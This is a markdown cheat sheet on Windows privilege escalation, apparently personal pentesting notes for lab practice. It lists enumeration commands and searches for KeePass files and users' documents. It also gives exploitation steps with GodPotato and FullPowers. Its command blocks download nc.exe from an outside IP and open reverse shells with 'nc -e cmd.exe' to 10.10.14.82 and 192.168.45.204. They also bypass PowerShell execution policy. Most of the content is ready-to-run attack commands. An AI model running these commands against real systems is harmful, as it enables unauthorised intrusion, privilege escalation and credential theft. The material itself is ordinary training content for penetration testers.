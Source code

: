 # Windows Privilege Escalation

## Enumeration

### Information we must know

```
- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes
```

### Commands

```powershell
# Get a stable shell
# Check if we can first make/use global temp
mkdir C:\Temp
cd C:\Temp
# If not, we might have to work in local temp (this can break calling tools as other users within RunasCs.exe)
cd %temp%
cd $env:temp
mkdir Tools
cd Tools

curl 10.10.14.82/nc.exe -o nc.exe
# rlwrap -crA nc -lvnp 9002
.\nc.exe 10.10.14.82 9002 -e cmd.exe
powershell -ep bypass

# Check system information
systeminfo

# Check privileges
whoami /all

# Check if Windows Defender is turned on
Get-MpPreference

# Check local users
net user
Get-LocalUser

# Check local user information
net user offsec

# Check local groups (PS)
net localgroup
Get-LocalGroup

# Check local group members (PS)
Get-LocalGroupMember Administrators

# Check connections
netstat -ano

# Check inbound/outbound firewall rules
netsh advfirewall firewall show rule name=all dir=in
netsh advfirewall firewall show rule name=all dir=out

# Check installed applications (PS)
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

# Check running processes (PS)
Get-Process

# Check interface(s), IP address(es), DNS information
ipconfig /all

# Check routing table
route print

# Check ARP table
arp -a

# Check environment variables (CMD)
set

# Check environment variables (PS)
Get-ChildItem env:

# Check path (PS)
$env:path

# Check powershell history (PS)
Get-History

# Check PSReadline history (PS)
(Get-PSReadlineOption).HistorySavePath

# List permissions
icacls filename
icacls *
Get-Acl -Path HKLM:SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | fl
Get-Acl Microsoft | Select-Object -ExpandProperty Owner

# Search for sensitive files (.kdbx in this case is for KeePass database files) (PS)
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\Victim\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users -Include local.txt,proof.txt -File -Recurse -ErrorAction SilentlyContinue

# Check services (PS)
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
Get-CimInstance -ClassName win32_service | Select Name,State,PathName

# Check unquoted service paths (cmd)
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """

# Interact with services (PS)
Start-Service TestService
Stop-Service TestService
Restart-Service TestService

# Check scheduled tasks
schtasks /query /fo LIST /v

# Query registry key
reg query "HKLM\SOFTWARE\MedDigi" /s
reg query "HKLM\SOFTWARE\MedDigi" /v EncKey
```

`icacls` permissions mask table (ACE = access control entry)

- `F` - Full access
- `M` - Modify access
- `RX` - Read and execute access
- `R` - Read-only access
- `W` - Write-only access

Inheritance rights ([MSDN](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls))

- `I` - Inherit. ACE inherited from the parent container
- `OI` - Object inherit. Objects in this container will inherit this ACE. Applies only to directories.
- `CI` - Container inherit. Containers in this parent container will inherit this ACE. Applies only to directories.
- `IO` - Inherit only. ACE inherited from the parent container, but does not apply to the object itself. Applies only to directories.
- `NP` - Do not propagate inherit. ACE inherited by containers and objects from the parent container, but does not propagate to nested containers. Applies only to directories.

[winPEAS](https://github.com/carlospolop/PEASS-ng/releases/)

## Exploitation

See: [PowerUp](PowerUp.md)

Abusing permissions: https://github.com/daem0nc0re/PrivFu/tree/main

### Vectors

#### OS is Windows 2012 - 2022 or Windows 8 - 11 with `SeImpersonatePrivilege` enabled

[GodPotato](https://github.com/BeichenDream/GodPotato)

Check `.NET` version

```powershell
# cmd
reg query "HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP" /s

# powershell
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse | Get-ItemProperty -Name Version,Release -ErrorAction 0 | Where { $_.PSChildName -match '^(?!S)\p{L}'} | Select PSChildName, Version, Release
```

```powershell
.\GodPotato.exe -cmd "cmd /c whoami"
.\GodPotato.exe -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.45.204 9002"
```

#### Role is `nt authority\local service` without `SeImpersonatePrivilege` present

Commonly the role for a web server running on a windows computer (such as `xampp`)

[FullPowers](https://github.com/itm4n/FullPowers)

```powershell
.\FullPowers.exe
```
